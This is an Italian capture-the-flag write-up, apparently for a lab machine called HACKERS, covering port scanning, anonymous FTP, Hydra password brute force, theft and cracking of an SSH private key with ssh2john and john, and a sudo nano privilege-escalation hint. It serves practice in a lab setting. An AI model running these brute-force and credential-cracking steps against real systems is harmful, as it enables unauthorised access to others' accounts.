 ## HACKERS
partiamo con uno scan delle porte

### enum

```bash
nmap HACKERS.thm -sV -sC 
```
molto bene... abbiamo tre porte aperte andiamo sulla ftp che accetta connessioni in anonimo

## FTP
```bash
ftp Anonymous@HACKERS.THM
```
ottimo prendiamo il note che hanno lasciato

```bash
get note
```
il file dice che ci sono 2 utenti con delle password scarse 
```bash
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
```

facciamo un file user
```bash
nano user.txt
```
e aggiungiamo rcampbell gcrawford

cosa fare quando le password fanno schifo???

## BRUTE FORCE

ecco qua il programma preferito HYDRA

facciamo il comando 
```bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt HACKERS.THM ftp
```

ecco la password a gratis per noi :)

colleghiamoci in ftp con l'utente trovato 

```bash
ftp gcrawford@HACKERS.THM
```
```bash
ls -a
```
ecco la cartella .ssh
```bash
get id_rsa
```

controllando questa id_rsa ha un altra password....

vabbè risolviamo. crackiamola!!
```bash
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
```
ed ecco la password grazie. colleghiamoci in ssh
```bash
ssh -i id_rsa gcrawford@hackers.thm
```

## privesc

vediamo cosa possiamo fare
```bash
sudo -l
```

OTTIMO ABBIAMO GRANDI POSSIBILITà(guardate gtfo.bins)
(hint: guardate i comandi di nano)

